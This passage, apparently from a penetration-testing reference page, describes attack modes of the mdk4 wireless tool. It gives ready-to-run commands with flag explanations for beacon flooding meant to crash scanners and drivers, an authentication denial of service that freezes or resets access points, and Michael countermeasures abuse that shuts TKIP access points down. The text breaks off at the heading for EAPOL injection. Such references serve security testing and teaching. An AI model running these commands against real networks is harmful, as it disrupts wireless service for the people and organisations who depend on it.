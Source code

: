 ATTACK MODE b: Beacon Flooding

Sends beacon frames to show fake APs at clients. This can sometimes crash network scanners and even drivers!

Copy
# -a Use also non-printable caracters in generated SSIDs and create SSIDs that break the 32-byte limit
# -w n (create Open) t (Create WPA/TKIP) a (Create WPA2/AES)
# -m use real BSSIDS
# All the parameters are optional and you could load ESSIDs from a file
mdk4 wlan0mon b -a -w nta -m
ATTACK MODE a: Authentication Denial-Of-Service

Sending authentication frames to all accessible Access Points (APs) within range can overload these APs, especially when numerous clients are involved. This intense traffic can lead to system instability, causing some APs to freeze or even reset.

Copy
# -a BSSID send random data from random clients to try the DoS
# -i BSSID capture and repeat pakets from authenticated clients
# -m use real MACs
# only -a or -i can be used
mdk4 wlan0mon a [-i EF:60:69:D7:69:2F] [-a EF:60:69:D7:69:2F] -m
ATTACK MODE p: SSID Probing and Bruteforcing

Probing Access Points (APs) checks if a SSID is properly revealed and confirms the AP's range. This technique, coupled with bruteforcing hidden SSIDs with or without a wordlist, helps in identifying and accessing concealed networks.

ATTACK MODE m: Michael Countermeasures Exploitation

Sending random or duplicate packets to different QoS queues can trigger Michael Countermeasures on TKIP APs, leading to a one-minute AP shutdown. This method is an efficient DoS (Denial of Service) attack tactic.

Copy
# -t <BSSID> of a TKIP AP
# -j use inteligent replay to create the DoS
mdk4 wlan0mon m -t EF:60:69:D7:69:2F [-j]
ATTACK MODE e: EAPOL Start and Logoff Packet Injection
